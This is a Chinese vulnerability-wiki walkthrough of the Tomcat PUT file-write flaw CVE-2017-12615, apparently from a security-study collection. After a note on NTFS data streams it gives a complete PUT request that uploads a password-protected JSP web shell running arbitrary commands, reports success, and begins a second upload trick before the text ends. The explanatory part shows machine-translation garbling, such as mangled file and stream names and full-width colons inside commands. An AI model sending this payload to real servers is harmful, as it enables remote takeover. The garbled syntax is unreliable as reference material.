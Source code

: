 大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流
- 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

    Copy to clipboard<filename>：<stream name>：<stream type>

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型\$
INDEX\_ALLOCATION。\$ INDEX\_ALLOCATION类型（目录流）的默认流名称是\$
I30。（这与\$
DATA流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

    Copy to clipboardDir C：\ Users
    Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
    Dir C：\ Users :: $ INDEX_ALLOCATION

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用DIR命令的/
R选项从命令行观察。

payload:

    PUT /shell.jsp::$DATA HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 662  
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp  
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>

我们利用burpsuite来发送我们的payload

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId34.png)

可以看到返回响应码201，说明我们上传成功了。我们访问我们jsp脚本试试：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId35.png)

看到可以命令执行(我们上传的payload是命令执行的脚本)，我们也可以上传一个jsp的webshell

##### 上传姿势二：

我们知道servlet在识别1.jsp/时会把它当作非jsp文件交给DefaultServlet
来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个webshell)

    PUT /webshell.jsp/ HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 6239  
